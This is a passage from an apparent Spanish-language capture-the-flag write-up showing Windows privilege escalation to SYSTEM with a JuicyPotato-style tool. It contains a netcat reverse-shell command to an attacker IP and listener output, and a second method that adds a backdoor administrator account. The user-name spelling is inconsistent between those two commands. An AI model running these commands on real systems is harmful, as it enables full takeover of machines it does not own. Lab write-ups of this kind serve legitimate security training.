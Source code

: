```bash
C:\Windows\Temp\Privesc> ****JP.exe -t * -p C:\Windows\System32\cmd.exe -l 4444 -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.14.27 443"
JP.exe -t * -p C:\Windows\System32\cmd.exe -l 4444 -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.14.27 443"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Privesc>
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.59] 50135
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32>
```

Ya nos encontramos dentro de la máquina como el usuario `nt authority\system` y podemos  visualizar la flag (root.txt).

Otra forma que podriamos utilizar sería crearno un usuario y agregarlo al grupo **Administrators** (**Nota**: A veces es necesario ejecutar el mismo comando varias veces para que aplique y el nombre de usuario no debe contener digitos).

```bash
C:\Windows\Temp\Privesc> JP.exe -t * -p C:\Windows\System32\cmd.exe -l 4444 -a "/c net user kamiyo k4miyo123 /add"

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Privesc> JP.exe -t * -p C:\Windows\System32\cmd.exe -l 4444 -a "/c net localgroup Administrators k4miyo /add"

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Privesc>
```
